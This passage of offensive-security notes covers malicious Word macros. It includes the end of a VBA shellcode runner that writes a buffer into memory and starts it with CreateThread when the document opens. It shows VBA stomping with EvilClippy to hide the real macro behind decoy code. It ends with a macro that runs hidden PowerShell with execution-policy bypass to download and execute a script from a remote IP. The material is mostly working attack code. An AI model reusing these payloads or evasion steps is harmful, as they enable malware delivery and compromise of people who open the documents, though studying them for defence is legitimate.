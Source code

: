 ```VB
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

## Stomping On Microsoft Word

`fakecode.vba`

```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    MsgBox ("This is a macro test")
End Sub
```

The `P-code` is a compiled version of the VBA textual code for the specific version of Microsoft Office and VBA it was created on.

If a Microsoft Word document is opened on a different computer that uses the **same version and edition of Microsoft Word**, the cached pre-compiled `P-code` is executed, avoiding the translation of the textual VBA code by the VBA interpreter.

Automate the VBA Stomping process with `EvilClippy`

```bat
EvilClippy.exe -s fakecode.vba Doc1.doc
```

## Hiding PowerShell Inside VBA

```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim strArg As String
    strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
    Shell strArg, vbHide
End Sub
```